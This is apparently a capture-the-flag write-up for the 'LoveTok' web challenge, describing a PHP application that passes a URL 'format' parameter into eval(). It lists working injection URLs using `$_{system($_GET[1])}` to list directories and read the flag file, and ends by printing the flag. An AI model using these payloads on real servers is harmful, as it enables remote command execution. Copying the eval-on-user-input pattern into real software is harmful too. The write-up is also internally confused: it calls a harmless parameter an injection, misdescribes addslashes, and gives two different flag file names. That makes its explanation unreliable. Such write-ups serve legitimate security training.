 # File Analysis

## TimeController.php

In the `TimeController.php` file of the LoveTok web application, the code snippet below is present:

```php
$format = isset($_GET['format']) ? $_GET['format'] : 'r';
$time = new TimeModel($format);
```
- This code takes a 'format' parameter from the URL and passes it to the TimeModel class.

## TimeModel.php Vulnerability

- The TimeModel.php file contains the following code:

```
class TimeModel {
    public function __construct($format) {
        // Values from $format are executed in the eval() function
        eval($format);
    }
}
```
- Here, the 'format' value is directly passed to eval(), making the code vulnerable to command injection.

## Command Injection Payload

- A command injection payload was successfully executed by passing the following URL:
```
http://178.62.11.21:30505/?format=r
```
- This payload changed the "Date and Time" on the website.

## File Listing Injection

- A file listing injection was attempted using the following payload:

```
http://178.62.11.21:30505/?format=$_{system($_GET[1])}&1=ls+/
```
- In this case, the parameter '1' was assigned the value 'ls', attempting to list all files on the webpage.

## Forward Slash Addition

- To execute the remote code value, a forward slash was added:

```
$this->format = addslashes($format);
```
## Finding the Flag

- To locate the flag, the following command injection was attempted:

```
http://178.62.11.21:30505/?format=$_{system($_GET[1])}&1=cat
```

- This injection aimed to read the contents of the 'flagBs3s' file.

- These findings highlight a command injection vulnerability in the LoveTok web application, allowing potential unauthorized access and manipulation of server-side functionalities. It is crucial to address and patch such vulnerabilities promptly to enhance the security of the application.

```
cat ../flagmRG8b
cat — get file
../flagmRG8b —The “flagmRG8b” file is located in the folder one level up from the current folder.
```

FLAG - HTB{wh3n_10v3_g3ts_eval3d_sh311s_st4rt_pOpp1ng}